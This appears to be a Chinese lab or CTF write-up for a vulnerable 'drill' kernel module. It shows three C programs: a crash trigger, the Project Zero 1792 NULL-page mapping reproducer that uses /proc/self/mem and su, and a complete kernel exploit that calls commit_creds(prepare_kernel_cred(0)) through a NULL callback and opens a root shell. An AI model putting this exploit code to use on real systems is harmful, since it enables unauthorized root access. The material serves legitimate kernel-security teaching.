


# P1

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>

int act(int fd, char code)
{
	ssize_t bytes = 0;

	bytes = write(fd, &code, 1);
	if (bytes <= 0) {
		perror("[-] write");
		return EXIT_FAILURE;
	}

	return EXIT_SUCCESS;
}

int main(void)
{
	int ret = EXIT_FAILURE;

	printf("begin as: uid=%d, euid=%d\n", getuid(), geteuid());
	int fd=open("/sys/kernel/debug/drill/drill_act", O_WRONLY);
	act(fd,'1');
	act(fd,'4');
	act(fd,'2');
	// MDL: Use act function to implement the following commands
	// MDL: echo '1' > /sys/kernel/debug/drill/drill_act
	// MDL: echo '4' > /sys/kernel/debug/drill/drill_act
	// MDL: echo '2' > /sys/kernel/debug/drill/drill_act

	return ret;
}

```


修改drill_trigger_crash.c后，编译并将其拷贝进drill


随后运行drill_trigger_crash

此时QEMU虚拟机内核崩溃



# P2

reproducer.c

```c
#include <sys/mman.h>
#include <err.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>

int main(void) {
  void *map = mmap((void*)0x10000, 0x1000, PROT_READ|PROT_WRITE,
                   MAP_PRIVATE|MAP_ANONYMOUS|MAP_GROWSDOWN|MAP_FIXED, -1, 0);
  if (map == MAP_FAILED) err(1, "mmap");
  int fd = open("/proc/self/mem", O_RDWR);
  if (fd == -1) err(1, "open");
  unsigned long addr = (unsigned long)map;
  while (addr != 0) {
    addr -= 0x1000;
    if (lseek(fd, addr, SEEK_SET) == -1) err(1, "lseek");
    char cmd[1000];
    sprintf(cmd, "LD_DEBUG=help su 1>&%d", fd);
    system(cmd);
  }
  system("head -n1 /proc/$PPID/maps");
  printf("data at NULL: 0x%lx\n", *(unsigned long *)0);
}
```

编译拷贝


运行结果


# P3

文件如下

```c
#define _GNU_SOURCE

#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/syscall.h>
#include <stdbool.h>
#include <sys/wait.h>
#include <stdint.h>
#include <sys/mman.h>
#include <err.h>
/* ============================== Kernel stuff ============================== */

/* Addresses from System.map (no KASLR) */
#define COMMIT_CREDS_PTR	0xffffffff81084370lu		// MDL: fix this symbol
#define PREPARE_KERNEL_CRED_PTR	0xffffffff810845a0lu	// MDL: fix this symbol

typedef int __attribute__((regparm(3))) (*_commit_creds)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (*_prepare_kernel_cred)(unsigned long cred);

_commit_creds commit_creds = (_commit_creds)COMMIT_CREDS_PTR;
_prepare_kernel_cred prepare_kernel_cred = (_prepare_kernel_cred)PREPARE_KERNEL_CRED_PTR;

void __attribute__((regparm(3))) root_it(unsigned long arg1, bool arg2)
{
	commit_creds(prepare_kernel_cred(0));
}

struct drill_item_t {
	uint32_t foo;
	uint64_t callback;
	char bar[1];
};

/* ========================================================================== */

void run_sh(void)
{
	pid_t pid = -1;
	char *args[] = {
		"/bin/sh",
		"-i",
		NULL
	};
	int status = 0;

	pid = fork();

	if (pid < 0) {
		perror("[-] fork()");
		return;
	}

	if (pid == 0) {
		execve("/bin/sh", args, NULL); /* Should not return */
		perror("[-] execve");
		exit(EXIT_FAILURE);
	}

	if (wait(&status) < 0)
		perror("[-] wait");
}

void init_payload(void *p)
{
	struct drill_item_t *item = (struct drill_item_t *)p;

	item->callback = (uint64_t)root_it;

	printf("[+] payload:\n");
	printf("\tstart at %p\n", p);
	printf("\tcallback %lx\n", item->callback);
}

int act(int fd, char code)
{
	ssize_t bytes = 0;

	bytes = write(fd, &code, 1);
	if (bytes <= 0) {
		perror("[-] write");
		return EXIT_FAILURE;
	}

	return EXIT_SUCCESS;
}

int main(void)
{
	int ret = EXIT_FAILURE;
	void *map = NULL;
	int mem_fd = -1;
	char cmd[1000];
	unsigned long addr = 0;
	int drill_fd = -1;

	printf("begin as: uid=%d, euid=%d\n", getuid(), geteuid());

	// MDL: copy the reproducer from the blog below to map zero address
	map = mmap((void *)0x10000, 0x1000, PROT_READ | PROT_WRITE,
					 MAP_PRIVATE | MAP_ANONYMOUS | MAP_GROWSDOWN | MAP_FIXED, -1, 0);
	if (map == MAP_FAILED)
		err(1, "mmap");
	int fd = open("/proc/self/mem", O_RDWR);
	if (fd == -1)
		err(1, "open");
	addr = (unsigned long)map;
	while (addr != 0)
	{
		addr -= 0x1000;
		if (lseek(fd, addr, SEEK_SET) == -1)
			err(1, "lseek");
		char cmd[1000];
		sprintf(cmd, "LD_DEBUG=help su 1>&%d", fd);
		system(cmd);
	}

	// MDL: https://bugs.chromium.org/p/project-zero/issues/detail?id=1792&desc=2

	printf("[+] /proc/$PPID/maps:\n");
	system("head -n1 /proc/$PPID/maps");

	int fd2=open("/sys/kernel/debug/drill/drill_act", O_WRONLY);


	// MDL: echo '1' > /sys/kernel/debug/drill/drill_act
	act(fd2,'1');	
	// MDL: echo '4' > /sys/kernel/debug/drill/drill_act
	act(fd2,'4');
	init_payload((void *)NULL);

	// MDL: echo '2' > /sys/kernel/debug/drill/drill_act
	act(fd2,'2');
	
	if (getuid() == 0 && geteuid() == 0) {
		printf("[+] finish as: uid=0, euid=0, start sh...\n");
		run_sh();
		ret = EXIT_SUCCESS;
	} else {
		printf("[-] didn't get root\n");
		goto end;
	}

	printf("[+] The End\n");

end:
	if (drill_fd >= 0) {
		ret = close(drill_fd);
		if (ret != 0)
			perror("[-] close drill_fd");
	}

	if (mem_fd >= 0) {
		ret = close(mem_fd);
		if (ret != 0)
			perror("[-] close mem_fd");
	}

	return ret;
}

```

编译拷贝


在drill中运行脚本，攻击成功，并获得flag

